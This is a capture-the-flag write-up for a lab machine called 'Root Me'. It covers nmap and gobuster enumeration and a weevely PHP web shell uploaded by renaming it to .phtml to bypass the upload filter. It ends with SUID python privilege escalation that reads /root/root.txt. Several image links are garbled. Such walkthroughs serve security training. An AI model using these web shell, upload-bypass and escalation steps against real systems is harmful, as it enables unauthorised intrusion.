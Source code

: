 # Root Me
## Enumeration
``` 
nmap -sV -sS -A -o nmap.out {your ip}
In Nmap I found:
Port 80 Is Running Apache Server
Port 22 Is Running SSH
```
```
# Nmap 7.80 scan initiated Sun May  9 21:44:56 2021 as: nmap -sV -sS -A -o nmap.out 10.10.85.5
Nmap scan report for 10.10.85.5
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   58.49 ms  10.17.0.1
2   ... 4
5   198.58 ms 10.10.85.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  9 21:46:45 2021 -- 1 IP address (1 host up) scanned in 110.05 seconds
```
# website Lookup
```
Nothing In Website
So i started gobuster
gobuster -u {your ip} -w /usr/share/dirb/wordlists/common.txt
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/buster.png)
```
Found /panel and /uploads
In Panel We Have Access To Upload Files.
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/panel.png)
```
I Fired Up Terminal And Immediately Installed weevely
About Weevely:
Weevely Is A PHP reverse shell listener and creator 
command = weevely generate {your pass} shell.php 
 shell.php 
Lets Upload It Now.
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/php-not-allow.png)
#### I Transalated It Using Google Transalate
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/transalate.png)
#### Php Is Not Allowed
#### Lets See Hint Which FILE UPLOAD BYPASS
#### I googled It And Got This
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/file-bypass.png)
### So i Renamed From .php to .phtml
![Alt](uplaod.png)
### Now It Is Uploaded
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/success.png)
```
I Remember I Also Found A Hidden Directory Named /uploads In Gobuster Lets Visit it Now
```
### Thats All We Need Lets Open It shell.phtml
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/uploads.png)

### Now I Fired Terminal And Typed
```
weevely http://{your-ip}/uploads/shell.phtml 5142
```
## Boom I Got A Reverse Shell
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/rev-shell.png)
### Lets CD To user.txt
```
user.txt was present inside /var/www/
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/user.png)
# Privilage Escalation
### We Got Nothing using sudo -l
### So I Started Search For Files with SUID Permission
```
find / -user root -perm /4000
```
### /usr/bin/python is Too Suspicious
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/python-weird.png)
### I Know A Trick Here To Get Root.txt 
```
python -c 'print(open("/root/root.txt").read())'
```
## Boom Escalation In Less Than 30 Seconds
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/priv.png)
# Machine Hacked By Patan Musthakheem Khan
##### github.com/pmk456
